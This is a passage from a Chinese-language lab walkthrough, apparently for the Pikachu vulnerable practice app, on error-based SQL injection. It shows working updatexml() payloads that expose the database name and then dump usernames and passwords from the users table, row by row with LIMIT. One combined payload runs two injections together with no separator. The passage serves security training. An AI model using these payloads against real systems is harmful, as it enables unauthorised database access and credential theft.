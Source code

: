 

输入

```plain
XMTX' or updatexml(1,(concat(0x7e,database(),0x7e)),1) or '
```



爆出当前数据库

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882493130-ca27fbd4-e429-4543-88de-ef1e20fe376d.png)



SQL注入详情可以看sqli-labs系类，这里不进行详细叙述，直接爆账号和密码了。

```plain
XMTX' or updatexml(1,(concat(0x7e,(select concat_ws('-',username,password) from pikachu.users limit 0,1),0x7e)),1) or '
```



这里的输出不完整是因为报错注入对输出的字符数有限制

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882497983-a7ae6a24-6151-49e1-9984-15f93b387ac9.png)



可以输入

```plain
XMTX' or updatexml(1,(concat(0x7e,(select username from pikachu.users limit 0,1),0x7e)),1) or 'XMTX' or updatexml(1,(concat(0x7e,(select password from pikachu.users limit 0,1),0x7e)),1) or '
```



通过修改limit的参数来控制。



# delete注入

## 查看关键代码
